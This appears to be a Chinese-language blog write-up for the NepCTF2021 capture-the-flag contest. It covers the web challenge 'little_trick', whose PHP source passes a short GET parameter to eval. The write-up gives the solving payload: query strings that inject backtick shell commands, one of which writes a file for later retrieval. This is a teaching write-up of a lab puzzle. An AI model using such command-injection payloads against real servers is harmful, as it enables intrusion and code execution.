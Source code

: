 ```yaml
---
title: NepCTF2021
comments: true
hide: false
date: 2021-03-22 12:59:47
urlname: Nepctf2021
updated:
password:
tags:
  - PHP
categories: Write-Up
---
```


队伍名称：Err0r





队伍情况：

![rank](nepctf2021/image-20210322130933265.png)

虽然平台八太行，但是部分题目质量很高，本菜鸡爬了，虚心学习。

本Wp侧重于思路记录，大佬们轻喷...

## WEB

### little_trick

#### payload：

```php
./?len=7&nep=`cat`;
./?len=7&nep=`*>a`;
访问./a
```

#### 思路：

源码

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $nep = $_GET['nep'];
    $len = $_GET['len'];
    if(intval($len)<8 && strlen($nep)<13){
        eval(substr($nep,0,$len));
    }else{
        die('too long!');
    }
?>
```
